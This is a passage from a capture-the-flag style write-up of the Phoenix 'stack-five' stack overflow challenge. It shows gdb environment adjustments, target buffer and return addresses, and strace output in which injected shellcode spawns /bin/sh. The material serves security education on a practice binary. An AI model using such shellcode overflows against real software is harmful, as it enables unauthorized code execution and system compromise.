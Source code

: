```console
```

What? no `execve()` and we get an illegal instruction exception thrown at us...
It suggests our offset calculations are wrong, but how is that possible? everything seemed to work in `gdb`...

The problem is probably that [the debugged process differs in stack addresses, it can occur from a difference in environment variables and program arguments](https://stackoverflow.com/a/17775966/5327945) - which are layed before the stack in process memory.

Because we don't supply any program arguments, we can assume the issue is in the environment variables.
```console
user@phoenix-amd64:~$ env
...
```

Now let's see the environment vars in `gdb` to spot the difference,
```console
(gdb) show env
...
LINES=62
COLUMNS=116
```

Unset these variables and we should have our stack addresses aligned.
```console
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Now after debugging the process again I ended up with different addresses (moved `0x20` bytes up):
```python
BUFFER_SIZE = 128
BUFFER_ADDRESS = 0x7fffffffe560
RETURN_ADDRESS = 0x7fffffffe5e8
```
```console
user@phoenix-amd64:~$ strace /opt/phoenix/amd64/stack-five < exploit.bin
execve("/opt/phoenix/amd64/stack-five", ["/opt/phoenix/amd64/stack-five"], [/* 18 vars */]) = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7ffdbc8) = 0
set_tid_address(0x7ffff7ffdc08)         = 1080
mprotect(0x7ffff7ffa000, 4096, PROT_READ) = 0
ioctl(1, TIOCGWINSZ, {ws_row=81, ws_col=117, ws_xpixel=0, ws_ypixel=0}) = 0
writev(1, [{iov_base="Welcome to phoenix/stack-five, b"..., iov_len=74}, {iov_base="\n", iov_len=1}], 2Welcome to phoenix/stack-five, brought to you by https://exploit.education
) = 75
read(0, "UH\211\345H\203\354\20H\277/bin/sh\0H\211|$\370H\215|$\370\276\0\0\0"..., 1024) = 144
read(0, "", 1024)                       = 0
execve("/bin/sh", NULL, NULL)           = 0
brk(NULL)                               = 0x555555773000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=23717, ...}) = 0
mmap(NULL, 23717, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7ffff7fc8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@n\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1839792, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fc6000
mmap(NULL, 1852680, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7ffff7e01000
mprotect(0x7ffff7e26000, 1662976, PROT_NONE) = 0
mmap(0x7ffff7e26000, 1355776, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x7ffff7e26000
mmap(0x7ffff7f71000, 303104, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x170000) = 0x7ffff7f71000
```